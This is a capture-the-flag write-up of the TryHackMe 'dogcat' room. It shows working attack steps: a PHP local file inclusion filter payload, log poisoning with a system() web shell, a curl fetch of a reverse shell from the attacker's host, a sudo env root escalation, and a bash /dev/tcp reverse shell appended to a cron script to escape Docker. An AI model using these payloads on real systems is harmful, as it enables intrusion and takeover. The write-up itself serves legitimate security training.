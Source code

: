 ```yaml
---
title : "TryHackMe: Dogcat WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the 'dogcat' room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,dogcat,Medium,CTF]
image : /assets/images/writeups/thm/anonymous/dogcat.png
---
```

Link : [dogcat room](https://tryhackme.com/room/dogcat)

Welcome, Welcome, Welcome and welcome ! 

### Introduction 
After finishing [lfi basics room](), and learning some new lfi stuff, I chose this room to practice my new skill, and I absolutely recommend it! 

### Enumeration

- - -
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
Nothing fancy here, there's a web server running on port 80, let's check it! 

![homepage](/assets/images/writeups/thm/dogcat/homepage.png)

Basically, it's a web app that choose randomly a cat or a dog image based on user choice (images are stored inside a dog and cat folders - look at the source). 

The user choice (cat | dog) are passed to the server through the *view* variable (look at the url), so what if we enter something other than dog or cat ? for example *ls*
- - -
```html
Sorry, only dogs or cats are allowed.
```
- - -
So only dogs or cats allowed ? lets try *dog;ls* ?
- - -
```html 
Warning: include(dog;ls.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog;ls.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
humm ! so there's an include function running inside the */var/www/html/index.php* file that failed to open *days;ls.php* file. 

I think it's time for some [lfi](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi) now ! 

First things first, I used the null byte character : %00
The result was : 
- - -
```
Warning: include(): Failed opening 'dog;ls' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
so we get rid of the first warning which means that :
- the program concatenate .php extension at the end of the input unless it's dog or cat.

Ok, let's *directory traversal* : 
- - -
```html
“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”
Result after decoding : 

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
         <!-- the site checks if ext variable is set, if not it assigns it .php   -->
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
html comment is my explanation of the code.


### LFI to RCE via controlled log file 
Like mentioned [here](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi), I did a request to the server (in our case Apache) and include the log file (/var/log/apache2/access.log&ext). Reading the log file, it looks like we can insert a php script inside the user agent header since it's not manipulated(10.4.14.245 - - [14/Nov/2020:17:13:34 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.4.14.245 -), so I inserted this code : 
- - -
```php
<?php system($_GET['cmd']);?>
```
- - -
and then started a web server on my local host to host a reverse shell file and used wget command to save it inside a temporary file to finally get a reverse shell ! 
- - -
```
/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl http://MY-IP:80/reverse.php > /tmp/reverse.php
```
- - -
After that, I used chmod to make it executable and started a listener in my local host and running the file from the browser
BOOM!! I got the reverse shell ! 
- - -
```bash
root@kali:~/Documents/thm/startup# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.129.131] 46518
Linux 571f0aa7aca9 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 18:05:41 up 55 min,  0 users,  load average: 0.23, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Spawning a tty shell using */bin/bash -i* command, and looking at the user directory we can find the 2nd flag. 
The first flag was inside the */var/www/html/* directory. (We could retrieve it by running view=flag in the url, anyway)
Now we need to escalate our privileges.
### PrivEsc
Running sudo -l command, it looks like we can *env* as root, checking [gtfobins] as always and yeah we can escalate our privileges to root by running :
*sudo env /bin/sh*, easy!
We can now retrieve the 3rd flag from root directory. 

But now !! THE FUN BEGIN 

### Breaking DOCKER LOCKER 
The 4th flag was really hard to get for me, I didn't face any of these kinda flags before but it was kinda fun to get it ! 

By looking at this [article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) from the famous Vickie Lie, and the docker tag from the room cover, I check /proc/1/cgroup file to check if we are inside a docker container or not. 

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the find / -type f -name *.sh command because nothing of the tricks found helped me, the first result is the file /opt/backups/backup.sh, hum interesting, looking at its contents : 
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
From what it looks like, basically it's a cronjob that backup the container, and since it's writeable, let's add a reverse shell, start a listener and wait for it to be executed.
- - -
```
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1'" >> backup.sh
```
- - -
After few minutes we get a reverse shell from the parent host and we can easily get flag4.txt ! 

### Final thoughts 
This room rocks ! I absolutely recommend for all beginners like me ! 
Huge thanks to [jammy](https://tryhackme.com/p/jammy) ! 
